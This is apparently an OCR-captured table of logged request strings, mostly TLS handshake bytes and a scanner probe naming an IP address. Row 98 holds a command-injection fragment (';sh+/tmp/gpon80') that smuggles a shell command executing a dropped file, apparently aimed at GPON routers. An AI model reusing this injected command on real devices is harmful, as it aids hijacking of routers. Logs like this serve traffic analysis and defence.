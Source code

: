 |  98 |                     1 | ;sh+/tmp/gpon80&ipv=0                                                                                                                                                                                                                                                                                                                                                                                                       |
|  99 |                     1 | l\x00\x0B\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                               |
| 100 |                     1 | \x80\x00\x00(r\xFE\x1D\x13\x00\x00\x00\x00\x00\x00\x00\x02\x00\x01\x86\xA0\x00\x01\x97|\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                     |
| 101 |                     1 | \x16\x03\x01\x00M\x01\x00\x00I\x03\x03h\xCD\x9Dn\x1F\xED\xBE\xD4g\xD1\xEA 2$\xD2\xC6\xCF$\x19\xAF{\x09\x9C\xF3\xF4C$\xBD@|\xE5\xDA q\xA0\xADi:@\xF1{K\xEB\x92\xB9\x5C                                                                                                                                                                                                                                                       |
| 102 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xC9B\xBDL\x06\x1F\xF5~\xAE\xCE\x1E\x066\xBF\x8BC\xFD\xF2\x1B\x96s\xB7w\xD0~U\x9El\xBAj-\x0B\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                        |
| 103 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03l\xB2\x17\xDEV\xE4p                                                                                                                                                                                                                                                                                                                                                                   |
| 104 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xBC8\xC4\xB6L\x8D\x93[\xAD\xE2\x1F\xE9\xE9\xF0\xF0\x5C\xBE\xF4*\xE1h\x14D0\x11\x83\x12\xE8AE\x1D\xCD\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                               |
| 105 |                     1 | \x16\x03\x01\x05\xA8\x01\x00\x05\xA4\x03\x03=\xDC`\x06\xB3\xA0\xF2*\xA1\x0FQ\x06P\xDBF\x0B\xBA\xED\xD6 F;\xA6\xBF\x14o\xE9\x92\x09f)C \xE52\x5C\xA2\x84dv>\xA0\x1F\x89\x83%\x9D'g\x17\xB1\xEBE~\xDE\xE2\xA2$\x01>I\x87h*G\x00\x1A\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                   |
| 106 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x034\xEB-\xB6\xFE\x95\xED\xEA|N\x06 \xAD\xCF|                                                                                                                                                                                                                                                                                                                                            |
| 107 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x05\x19m\x0F\x22\xA8<\x95{\xBE_V\xC0`:\xAD\xBF\x16\xFB\xF0\xA9iz\xCD\xB5\xC6Z\x8CQ                                                                                                                                                                                                                                                                                                   |
| 108 |                     1 | MGLNDD_185.104.192.71_80                                                                                                                                                                                                                                                                                                                                                                                                    |
| 109 |                     1 | \x16\x03\x01\x00\xC9\x01\x00\x00\xC5\x03\x03&/\x04\xB0\x0FY\xEA\x9D!X\xCD\xA5\xDA\xF4\xD7~6.\xD9\xDB\xCD\x9C(\x0F                                                                                                                                                                                                                                                                                                           |
| 110 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xDB\xBA\xAC\xF8\x18a\xB6&\x09\xD9\xAAu\x12\xE0\xC6\xC6\xAA2B\xBF\xC0\xE9\xCB\x00,5$J\xC5-\x11\xE9 \xEBv\xF0;i\xAF@\xDF\x8A8+\x11\xD6\xB7\x9F\xB1\xE1b\x99)Nc\x0F`\xC8Y|\x05_\x02\xA0                                                                                                                                                                                           |